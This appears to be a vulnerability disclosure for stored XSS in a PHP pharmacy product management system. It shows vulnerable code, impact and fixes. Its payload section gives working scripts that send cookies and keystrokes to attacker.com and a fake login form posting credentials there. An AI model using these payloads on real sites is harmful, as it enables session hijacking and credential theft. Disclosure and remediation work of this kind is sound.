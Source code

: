 

# Title: [xss] in [Web-based Pharmacy Product Management System] <= [v1.0]

# **BUG_Author:** [yaklang. io, IRify, Yakit]

## Product Information
- **Vendor Homepage:** [link](https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html)
- **Software Link:** [download-link](https://www.sourcecodester.com/sites/default/files/download/Senior%20Walter/product_expiry.zip)
- **Affected Version:** [<= v1.0]
- **BUG Author:** yaklang. io, IRify 

## Vulnerability Details
### Vulnerable Files
* `user-record.php`
* `student-record.php`
* `sales-record.php`
* `edit-profile.php`
* `edit-photo.php`
* `changepassword.php`
* `backup_db.php`
* `add-supplier.php`
* `add-stock.php`
* `add-sales.php`
* `add-product.php`
* `add-category.php`
* `add-admin.php`
* `activity-log.php`

### Vulnerability Type
**Stored Cross-Site Scripting (XSS)**
*(CWE-79: Improper Neutralization of Input During Web Page Generation)*

### Root Cause
In this php file, we can find code like this: 
Search `login_email` in database, and show the `photo`  \ `fullname ` data from database. 
```php
// user-record.php
// line:10
$email = $_SESSION["login_email"];
//fetch user data
$stmt = $dbh->query("SELECT * FROM users where email='$email'");
$row_user = $stmt->fetch();

// line:134
    <!-- Sidebar -->
    <div class="sidebar">
      <!-- Sidebar user panel (optional) -->
      <div class="user-panel mt-3 pb-3 mb-3 d-flex">
        <div class="image">
        <img src="<?php echo $row_user['photo'];    ?>" alt="User Image" width="140" height="141" class="img-circle elevation-2">        </div>
        <div class="info">
          <a href="#" class="d-block"><?php echo $row_user['fullname'];  ?></a>
        </div>
      </div>
```
This `users` table we can control in `add-admin.php`, we can insert a new user to database, and when this user login, xss will be trigger in so many url. 

### Impact
- Persistent malicious script execution for all users viewing affected pages
- Session hijacking via cookie theft
- Phishing attacks by modifying page content
- Defacement of application interface
- Potential privilege escalation through admin interface compromise

## Description

### **Root Cause Analysis**
**Input Handling Flaws**:
   - User-controlled input (`fullname`, `photo` fields) is stored in database without sanitization
   - Output is directly rendered in multiple templates without proper escaping
**Attack Surface**:
   - 14 different PHP files display user-controlled data
   - Both admin and regular user interfaces affected
## **Attack Vectors**

### **Exploitation Paths**
1. **Basic Attack**:
   - Attacker creates account with malicious payload in `fullname` field
   - Payload executes when any user views affected pages

2. **Advanced Attack**:
   ```javascript
   <script>
   fetch('https://attacker.com/steal?cookie='+document.cookie);
   </script>
   ```

3. **DOM-based Variant**:
   ```javascript
   <img src=x onerror=alert(document.domain)>
   ```

### **Payload Examples**
1. **Session Hijacking**:
   ```html
   <script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
   ```

2. **Keylogger**:
   ```javascript
   <script>document.onkeypress=function(e){fetch('http://attacker.com/k?k='+e.key)};</script>
   ```

3. **UI Redress**:
   ```html
   <style>body{visibility:hidden}</style>
   <div style="position:absolute;top:0;left:0;width:100%;height:100%;background:white">
     <h1>System Maintenance</h1>
     <form action="http://attacker.com/phish" method="post">
       Enter credentials: <input type="password" name="creds">
     </form>
   </div>
   ```

## Code Scan 
this vulnerability find by [IRify](ssa.to) :
![image.png](https://s2.loli.net/2025/04/09/b3mtJocq2rQPuYy.png)



## Proof of Concept
We add the user with fullname: `<script>alert('XSS Exploit');</script>` 
![image.png](https://s2.loli.net/2025/04/09/olY96CJQq3VLHX4.png)


When we login this user, xss trigger: 
![image.png](https://s2.loli.net/2025/04/09/JDpXnrTscwuSxIm.png)

And in this user login,  we mark this php file, each can trigger this xss: 
![image.png](https://s2.loli.net/2025/04/09/VXd9B58NiHI2lkw.png)


## Suggested Repairs


### **Immediate Fixes**
1. **Output Encoding**:
   ```php
   // Replace all echo statements with:
   echo htmlspecialchars($row_user['fullname'], ENT_QUOTES, 'UTF-8');
   ```

2. **Input Validation**:
   ```php
   $fullname = preg_replace('/[^a-zA-Z0-9\s\-]/', '', $_POST['txtfullname']);
   ```

### **Architectural Improvements**
1. Implement Content Security Policy (CSP) headers:
   ```php
   header("Content-Security-Policy: default-src 'self'; script-src 'self'");
   ```

2. Adopt templating engine with auto-escaping (Twig, Blade)

3. Database layer sanitization:
   ```php
   $stmt = $dbh->prepare("INSERT INTO users (fullname) VALUES (?)");
   $stmt->execute([$filtered_fullname]);
   ```


## Additional Information

### **Technical Analysis**
- **Persistence**: Malicious payload remains until manually removed
- **Trigger Conditions**: Rendered in multiple contexts (HTML, JavaScript, attributes)
- **Browser Impact**: Affects all modern browsers

### **References**
1. OWASP XSS Prevention Cheat Sheet
2. CWE-79: Improper Neutralization of Input
3. PHP Security Best Practices

